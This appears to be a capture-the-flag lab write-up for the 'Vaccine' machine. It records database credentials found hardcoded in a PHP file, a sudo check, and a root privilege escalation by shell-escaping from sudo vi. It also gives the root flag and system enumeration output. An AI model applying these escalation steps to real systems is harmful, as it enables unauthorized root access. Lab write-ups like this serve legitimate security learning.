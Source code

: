 # Vaccine (10.10.10.46) Sh
#vaccine 
[[vaccine/apache]]

## Summary
### Users
| user     | pass      | host        | services         | groups            | soruce        |
| -------- | --------- | ----------- | ---------------- | ----------------- | ------------- |
| postgres | P@s5w0rd! | 10.10.10.46 | sudo, postgresql | postgres, ssl-crt | dashboard.php | 

### System Info
| System Attribute | Value                      |
| ---------------- | -------------------------- |
| OS Name          | Ubuntu 19.10 (Eoan Ermine) |
| OS Version       | kernel 5.3.0-29-generic    | 
| Archtechture     | x64                        |
| RAM              | 2GB                        |
| Nics             | ens160 (10.10.10.46)       |
## Procedure
1. Found db credentials for user `postgres` at /var/www/html/dashboard.php
	```
	$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	```
	![[Pasted image 20210818150611.png]]
	- user: `postgres`
	- pass: `P@s5w0rd!`
2. Found sudo permissions for `postgres` user
	```
	$ python3 -c "import pty;pty.spawn('/bin/bash')"
	postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
	sudo -l
	[sudo] password for postgres: mc@F1l3ZilL4

	Sorry, try again.
	[sudo] password for postgres: P@s5w0rd!

	Matching Defaults entries for postgres on vaccine:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User postgres may run the following commands on vaccine:
		(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
	```
	![[Pasted image 20210818152418.png]]
	- First command is used to get a shell with tty which allows sudo prompt to work
	- We have access to `/bin/vi` and a file called `/etc/postgresql/11/main/pg_hba.conf` with sudo
3. Escaped vi as sudo to become root
	```
	$ sudo vi /etc/postgresql/11/main/pg_hba.conf
	:!/bin/bash
	```
	![[Pasted image 20210818152615.png]]
4. Found root flag at /root/root.txt
	```
	root@vaccine:~# cat root.txt
	cat root.txt
	dd6e058e814260bc70e9bbdef2715849
	```
	![[Pasted image 20210818152821.png]]
	- Root flag: `dd6e058e814260bc70e9bbdef2715849`
5. Found lxc container config at /root/snap/lxd/12211/.config/lxc/config.yml
	```
	default-remote: local
	remotes:
	  images:
		addr: https://images.linuxcontainers.org
		protocol: simplestreams
		public: true
	  local:
		addr: unix://
		public: false
	aliases: {}
	```
	![[Pasted image 20210818153410.png]]
6. Got NIC information
	```
	$ ip addr show
	1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
		link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
		inet 127.0.0.1/8 scope host lo
		   valid_lft forever preferred_lft forever
		inet6 ::1/128 scope host
		   valid_lft forever preferred_lft forever
	2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
		link/ether 00:50:56:b9:7b:8f brd ff:ff:ff:ff:ff:ff
		inet 10.10.10.46/24 brd 10.10.10.255 scope global ens160
		   valid_lft forever preferred_lft forever
		inet6 dead:beef::250:56ff:feb9:7b8f/64 scope global dynamic mngtmpaddr
		   valid_lft 86198sec preferred_lft 14198sec
		inet6 fe80::250:56ff:feb9:7b8f/64 scope link
		   valid_lft forever preferred_lft forever
	```
	![[Pasted image 20210818160019.png]]
7. Got hardware info
	```
	$ lshw
	WARNING: you should run this program as super-user.
	vaccine
		description: Computer
		width: 64 bits
		capabilities: smp vsyscall32
	  *-core
		   description: Motherboard
		   physical id: 0
		 *-memory
			  description: System memory
			  physical id: 0
			  size: 2GiB
		 *-cpu:0
			  product: AMD EPYC 7401P 24-Core Processor
			  vendor: Advanced Micro Devices [AMD]
			  physical id: 1
			  bus info: cpu@0
			  width: 64 bits
	...
	```
	![[Pasted image 20210818160124.png]]
8. Got OS version
	```
	$ cat /etc/os-release
	NAME="Ubuntu"
	VERSION="19.10 (Eoan Ermine)"
	ID=ubuntu
	ID_LIKE=debian
	PRETTY_NAME="Ubuntu 19.10"
	VERSION_ID="19.10"
	HOME_URL="https://www.ubuntu.com/"
	SUPPORT_URL="https://help.ubuntu.com/"
	BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
	PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
	VERSION_CODENAME=eoan
	UBUNTU_CODENAME=eoan
	```
	![[Pasted image 20210818160218.png]]
9. Got Kernel info
	```
	$ uname -a
	Linux vaccine 5.3.0-29-generic #31-Ubuntu SMP Fri Jan 17 17:27:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
	```
	![[Pasted image 20210818160312.png]]